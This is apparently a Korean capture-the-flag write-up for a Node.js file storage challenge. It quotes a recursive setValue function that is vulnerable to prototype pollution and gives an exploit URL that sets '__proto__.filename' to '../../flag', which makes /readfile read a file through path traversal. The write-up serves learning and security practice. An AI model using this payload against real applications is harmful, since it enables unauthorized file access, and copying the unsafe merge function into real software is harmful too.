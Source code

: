 <h1>1. 웹페이지 접속</h1>

![image](./image/filestorage1.png)

파일이름과 파일내용을 입력할 수 있는 공간과 send 버튼이 있다. 임의의 내용을 입력해서 send 해보면

 

다음과 같이 출력된다.

![image](./image/filestorage2.png)

 

파일 이름으로 abc 를 입력하였는데 파일 이름은 sha256 방식으로 암호화되어 출력된다. 

 

 

<h1>2. 소스코드 분석</h1>
이 웹사이트는 Node.js 로 작성되었으며 파일 이름이 출력되던 mkfile 엔드포인트 이외에도 /readfile, /test 엔드포인트도 존재한다. 

 

<h2>취약한 소스코드</h2>

```
app.get('/test',function(req,resp){
	let {func,filename,rename}=req.query;
	if(func==null){
		resp.send("this page hasn't been made yet"); 
	}else if(func=='rename'){
		setValue(file,filename,rename)
		resp.send('rename');
	}else if(func=='reset'){
		read={};
		resp.send("file reset");
	}
 
```

/test 에서 사용하는 setValue 함수에서 취약점이 발견되었다.

 

 

<h2>setValue 함수</h2>

```
function setValue(obj, key, value) {
  const keylist = key.split('.'); 
  const e = keylist.shift(); 
  if (keylist.length > 0) {
    if (!isObject(obj[e])) obj[e] = {}; 
    setValue(obj[e], keylist.join('.'), value);
  } else {
    obj[key] = value;
    return obj;
  }
}
```

 

이 함수는 대표적인 프로토타입 오염에 취약한 함수이다.

참고자료 - https://ajy1120.tistory.com/46


 

프로토타입 오염은 Node.js 에서 발생하는 취약점으로 프로토타입 기반 언어인 자바스크립트에서 발생하는 취약점이다.

 

<br>

<h1>3. 익스플로잇</h1>
<br>
/test의 setValue 함수를 호출하기 위해 다음의 URL 을 파라미터 값으로 전달하였다.
<br>

 

```
/test?func=rename&file=read&filename=__proto__.filename&rename=../../flag
```
그러면 setValue(read, __proto__.filename, ../../flag) 함수가 호출된다. 이 함수가 실행되면 read 객체의 프로토타입

 

의 filename 속성값을 임의의 값으로 지정할 수 있다. 그리고 func=reset 값을 전달하여 read 객체를 다시 초기화하면

 

read 객체의 filename 값이 임의의 값으로 오염되게 된다다.

 

filename 속성값을 오염시킨 이유는 다음의 코드를 이용하기 위해서이다.

```
app.get('/readfile',function(req,resp){ 
	let filename=file[req.query.filename];
	if(filename==null){
		fs.readFile(__dirname+'/storage/'+read['filename'],'UTF-8',function(err,data){
			resp.send(data); // response.send
		})
	}else{
		read[filename]=filename.replaceAll('.',''); 
		fs.readFile(__dirname+'/storage/'+read[filename],'UTF-8',function(err,data){
			if(err==null){
				resp.send(data);
			}else{
				resp.send('file is not existed');
			}
		})
	}

})
```

위의 코드를 보면 filename 변수에 GET 방식으로 받은 값을 저장하고 filename 값이 null 값이면 read 객체의 filename

 

속성값을 그대로 사용하여 파일을 불러오는데, setValue 함수를 실행하여 filename 속성값을 오염시켰기 때문에

 

/readfile 에 접근할 때 아무런 값도 전달하지 않는다면 read['filename'] 값을 그대로 가져오게되어 

 

/storage/../../flag 경로에 접근하여 파일을 불러오게 된다. 


![image](./image/filestorage3_1.png)
